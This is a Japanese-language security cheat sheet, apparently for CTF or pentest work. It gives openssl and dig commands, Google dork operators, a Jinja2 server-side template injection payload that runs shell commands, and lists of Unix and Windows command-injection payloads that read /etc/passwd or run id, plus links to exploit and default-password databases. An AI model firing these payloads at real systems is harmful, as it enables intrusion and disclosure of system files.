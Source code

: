 # tips

## RSA

秘密鍵の中身を見る

```
openssl rsa -in <private-key.pem> -text -noout
```

公開鍵の中身を見る

```
openssl rsa -pubin -in <public-key.pem> -text -noout
```

## DNS

dig

```
dig <example.com> IN
dig <example.com> ANY
dig <example.com> TXT
```

## Phishing

- MX (Mail exchange record)
- SPF (Sender Policy Framework)
- DKIM (DomainKeys Identified Mail)
- DMARC (Domain-based Message Authentication, Reporting and Conformance)

## OSINT

- Google Dorks: https://www.exploit-db.com/google-hacking-database

  - ext: `ext:(doc | pdf | xls | txt)`
  - filetype: `filetype:log`
  - intext: `intext:"Control Panel"`
  - intitle: `intitle:"Manager"`
  - inurl: `inurl:index.php`
  - site: `site:ftp.*.*.*`

## SSTI

**Server Side Template Injection**

- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

Jinja2

```
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```

## SQLi

**SQL Injection**

- LIKE: `%`, `*`

## Command Injection

**Unix Payloads**

```
&lt;!--#exec%20cmd=&quot;/bin/cat%20/etc/passwd&quot;--&gt;
;netstat -a;
;system('cat%20/etc/passwd')
|id
\n/bin/ls -al\n
a);id
%0Acat%20/etc/passwd
& ping -i 30 127.0.0.1 &
<?php system("cat /etc/passwd");?>
```

**Windows Payloads**

```
'
'"
"
"'
%0a
%0a%0d
eval('ls')
exec('ls')
system('ls')
| sleep 1
; sleep 1
& sleep 1
&& sleep 1`
```

**Links**

- https://github.com/payloadbox/command-injection-payload-list

## Databases

- Default Passwords: https://cirt.net/passwords
- Exploit: https://www.exploit-db.com/

## Shodan:

- https://exploits.shodan.io/welcome

## Sites

- requestbin: https://requestbin.com/
